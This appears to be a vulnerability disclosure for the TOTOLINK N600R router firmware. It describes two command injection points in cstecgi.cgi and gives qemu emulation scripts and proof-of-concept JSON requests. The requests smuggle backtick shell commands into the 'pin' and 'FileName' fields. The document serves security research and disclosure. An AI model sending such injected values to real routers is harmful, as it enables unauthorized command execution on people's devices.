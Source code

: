 # TOTOLINK_N600R_V4.3.0cu.7866_B20220506-command injection

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## injection point 41caac

There is an injection attack vulnerability in the function FUN_0041c824.
The code disassembled by ghidra is shown in the figure below:

![enter image description here](https://i.miji.bid/2025/05/07/456dd04d343e04d87e7fde1fc2a4b66b.png)

### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41caac_poc.json
```
### json
```json
{

	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111`ls>41caac.txt`ll"
}
```

### Operation Results
When running to the system instruction in gdb, it is found that the executed string contains the injected command.
After execution, you can see that the corresponding file is generated in the corresponding folder.
![enter image description here](https://i.miji.bid/2025/05/07/bb335c1b28c2205899b0380cc1fcce4a.png)



![enter image description here](https://i.miji.bid/2025/05/07/c33057517510f69f307285847bccec91.png)

## injection point41767c

in function FUN_00416bd4, there is a similar bug.
### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41767c_poc.json
```
### json
```json
{

	"topicurl" : "UploadCustomModule/setUpgradeFW",
	"flags" : "true",
	"FileName" : "ll`ls>41767c.txt`aa",
	"ContentLength" : "990",
	"headOffset" : "36"
}
```
### Operation Results
![enter image description here](https://i.miji.bid/2025/05/07/703a072616f49c6fa3e67d1317702a6c.png)



